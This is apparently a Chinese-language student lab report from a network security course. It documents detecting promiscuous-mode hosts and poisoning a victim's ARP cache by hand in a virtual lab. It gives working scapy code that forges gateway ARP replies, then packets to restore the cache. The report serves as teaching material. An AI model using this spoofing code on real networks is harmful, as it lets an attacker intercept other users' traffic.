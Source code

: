 # chap0x04实验报告

-----

## 实验内容
* 检测局域网中的异常终端
* 手工单步“毒化”目标主机的 ARP 缓存

### 实验过程
#### 实验环境搭建
* 实验主机
    * Kali-Attackter-1  
    * Kali-victim-1 
    * debian-gw
* 实验拓扑图
![](imgs/structure.png) 
* 在攻击者主机上提前安装好`scapy`
```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
``` 
#### 实验一 检测局域网中的异常终端
`异常终端`：本实验中指的是开了混杂模式的主机  ，混杂模式指是指一台机器能够接收所有经过它的数据流，而不论其目的地址是否是他。
```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```  
![](imgs/checkpromisc.png)  
```bash
# 在攻击者主机上开启 scapy
sudo scapy
pkt = promiscping("172.16.111.102")
```
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
```
![](imgs/promisc_on.png)
```bash
# 再次回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
两次输出结果如下图：
![](imgs/promisc_on&off_pktping_cmp.png)  

#### 实验二 手工单步“毒化”目标主机的ARP缓存
以下代码在攻击者主机上的scapy交互模式终端下执行
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:0f:4c:77
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:0f:4c:77
#      psrc= 172.16.111.110
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
按照课件的办法：
```bash
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
发现是不能毒化arp缓存表的，会出现以下情况：
![](imgs/ppt_arp_gwchange.png)
添加以太网头可以解决上面的问题：
```bash
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
![](imgs/arp_gwchenge_success.png)  

回到攻击者主机,恢复arp缓存表：
```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e8:c0:ff", pdst="172.16.111.102", hwdst="08:00:27:74:ac:67")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e8:c0:ff", psrc="172.16.111.102", hwsrc="08:00:27:74:ac:67")
sendp(restorepkt2, count=100, inter=0.2)
```
在受害者主机上查看arp缓存表：
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/gw_reset.png)

### 实验思考
* 攻击者通过改变受害者arp缓存表里的默认网关Mac地址，实现arp投毒，所有需要经过默认网关的数据流量都会传输到攻击者主机。
### 参考资料
[Linux实现的ARP缓存老化时间原理解析](https://developer.aliyun.com/article/494130?spm=a2c6h.13813017.content3.1.707863e8MIWhJn)
[韩涛同学的实验报告](https://github.com/CUCCS/2022-ns-public-HantaoGG/tree/chap0x04/chap0x04#%E5%AE%9E%E9%AA%8C2-%E6%89%8B%E5%B7%A5%E5%8D%95%E6%AD%A5%E6%AF%92%E5%8C%96%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BAarp%E7%BC%93%E5%AD%98)